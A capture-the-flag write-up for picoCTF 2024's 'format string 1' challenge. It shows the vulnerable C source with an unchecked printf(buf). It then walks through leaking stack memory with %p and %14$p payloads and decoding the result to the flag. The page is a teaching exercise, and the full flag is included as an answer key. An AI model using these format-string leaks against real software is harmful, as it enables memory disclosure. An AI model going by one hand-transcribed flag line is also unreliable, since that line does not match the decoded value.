 ### format string 1

Author: syreal
#easy #Binary_exploitation #picoCTF2024 #format_string #browser_web_shell 
#### Description

Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu.
Find it, and along the way, maybe you'll find something else of interest! Download the binary [here](https://artifacts.picoctf.net/c_mimas/44/format-string-1). 
Download the source [here](https://artifacts.picoctf.net/c_mimas/44/format-string-1.c). Connect with the challenge instance here: `nc mimas.picoctf.net 55457`

##### Solution
###### code 
```c
#include <stdio.h>
int main() {
  char buf[1024];
  char secret1[64];
  char flag[64];
  char secret2[64];

  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);

  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}

```

###### output
when you run the code
```css
Give me your order and I'll read it back to you:
hi who are you
Here's your order: hi
Bye!
```
now look at the code  you will see`scanf("%1024s", buf);`, scanf cannot print space and 1024 means it can read up to 1023 characters from the input
```css
Give me your order and I'll read it back to you:
hihowareyou  
Here's your order: hihowareyou
Bye!
```
now lets play around with memory use %p which is pointer address
```css
Give me your order and I'll read it back to you:
%p%p%p%p
Here's your order: 0x5dd9540a5118(nil)0x7d1fc1416a00(nil)
Bye
```
test with number of input
```css
Give me your order and I'll read it back to you:
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
Here's your order: 0x5fc29faf2118,(nil),0x7d3804e16a00,(nil),0x5fc2a07c6c80,0x7ffd00000008,0x5fc2a07c5680,0xffffffff,(nil),0x7d3804c07e60,0x3055e4,0x7ffd98d02d80,0x7d3804c1bf7a,0x7d3804eb24d0,0x7ffd98d02ce0,0x756f79206f636970,0x7d006e697720,0x2
Bye!
```
now from cyber chef tool convert from hex 
```css
_Â¯!}8áj _Â |lý   _Â |Vÿÿÿÿ}8À~`0UäýÐ-}8Á¿z}8ë$ÐýÐ,àuoy ocip} niw 
```
in my flag.txt i have written `pico you win`
which look similar `uoy ocip} niw ` 
now remove unnecessary part from cyber chef to get proper output

| input                             | output         |
| --------------------------------- | -------------- |
| 0x756f79206f636970,0x7d006e697720 | uoy ocip} niw  |
| 0x7d006e697720,0x756f79206f636970 | } niw uoy ocip |
now add reverse tool into cyber chef to change the order  `pico you win }` i got my flag string
now test into server
```css
nc mimas.picoctf.net 61174
Give me your order and I'll read it back to you:
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
Here's your order: 0x402118,(nil),0x7c29e85c9a00,(nil),0xd87880,0xa347834,0x7ffc53d3a200,0x7c29e83bae60,0x7c29e85df4d0,0x1,0x7ffc53d3a2d0,(nil),(nil),0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x31655f673431665f,0x7d383130386531
Bye!
```
cyber chef result
```css
@!|)è\ Øx£GüSÓ¢ |)è;®`|)è]ôÐüSÓ¢Ð{FTCocip5_14m1n44x4_31y71e_g41f_}8108e
```
do same thing remove extra input from cyber chef

| input                                                                                        | output                                  |
| -------------------------------------------------------------------------------------------- | --------------------------------------- |
| 0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x31655f673431665f,0x7d383130386531 | {FTCocip5_14m1n44x4_31y71e_g41f_}8108e1 |
reverse the order into cyber chef `1e8018}_f14g_e17y13_4x44n1m41_5picoCTF{`
now fix the arrangement

| input              | output   |
| ------------------ | -------- |
| 0x7b4654436f636970 | picoCTF{ |
| 0x31655f673431665f | _f14g_e1 |
| 0x3478345f33317937 | 7y13_4x4 |
| 0x355f31346d316e34 | 4n1m41_5 |
| 0x7d383130386531   | 1e8018}  |
picoCTF{4n1m41_57y13_4x4_f14g_e11e8018}
picoCTF{animal_style_axa_flag_e11e80l8}

use two recipe on cyberchef swap endianess and from hex
![format\_string1/cyber\_chef\_swap\_endinass.jpg](format_string1/cyber_chef_swap_endinass.jpg)

----
solution 2

```css

┌──(kali㉿kali)-[~/Downloads/format_string1]
└─$ ./format-string-1
Give me your order and I'll read it back to you:
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
Here's your order: 0x7ffeb9b87620,(nil),(nil),(nil),0x400,0x326f6d6564,0x7ffeb9b878f8,0x7f02b314a6c0,0x3,0x7f0200000000,0x7ffeb9b87848,0x2,0x7ffeb9b87850,0x7b4654436f636970
Bye!
```

![format\_string1/14th\_pointer\_address.jpg](format_string1/14th_pointer_address.jpg)

![format\_string1/cyber\_chef\_hex\_decode.jpg](format_string1/cyber_chef_hex_decode.jpg)


```css
┌──(kali㉿kali)-[~/Downloads/format_string1]
└─$ ./format-string-1
Give me your order and I'll read it back to you:
%14$p
Here's your order: 0x7b4654436f636970
Bye!
```

```css
>>> print(struct.pack('<Q', 0x7b4654436f636970).decode(errors='ignore'))
picoCTF{
```

```css
┌──(kali㉿kali)-[~/Downloads/format_string1]
└─$ ./format-string-1
Give me your order and I'll read it back to you:
%15$p
Here's your order: 0x735f74616d726f66
Bye!   
```

```css
>>> print(struct.pack('<Q', 0x735f74616d726f66).decode(errors='ignore'))
format_s
```

```css
┌──(kali㉿kali)-[~/Downloads/format_string1]
└─$ ./format-string-1
Give me your order and I'll read it back to you:
%16$p
Here's your order: 0x7d31676e697274
Bye!
```

```css
>>> print(struct.pack('<Q', 0x7d31676e697274).decode(errors='ignore'))
tring1}
```
 so flag is `picoCTF{format_string1}`

or we can do like 
```css
┌──(kali㉿kali)-[~/Downloads/format_string1]
└─$ ./format-string-1
Give me your order and I'll read it back to you:
%14$p,%15$p,%16$p
Here's your order: 0x7b4654436f636970,0x735f74616d726f66,0x7d31676e697274
Bye!
```

```css
>>> import struct; print(''.join([struct.pack('<Q', h).decode(errors='ignore') for h in [0x7b4654436f636970,0x735f74616d726f66,0x7d31676e697274]]))
picoCTF{format_string1}
```

on server
```css

┌──(kali㉿kali)-[~/Downloads/format_string1]
└─$ nc mimas.picoctf.net 51544
Give me your order and I'll read it back to you:
%14$p,%15$p,%16$p,%17$p,%18$p
Here's your order: 0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x31655f673431665f,0x7d383130386531
Bye!
```

```css
>>> import struct; print(''.join([struct.pack('<Q', h).decode(errors='ignore') for h in [0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x31655f673431665f,0x7d383130386531]]))
picoCTF{4n1m41_57y13_4x4_f14g_e11e8018}
```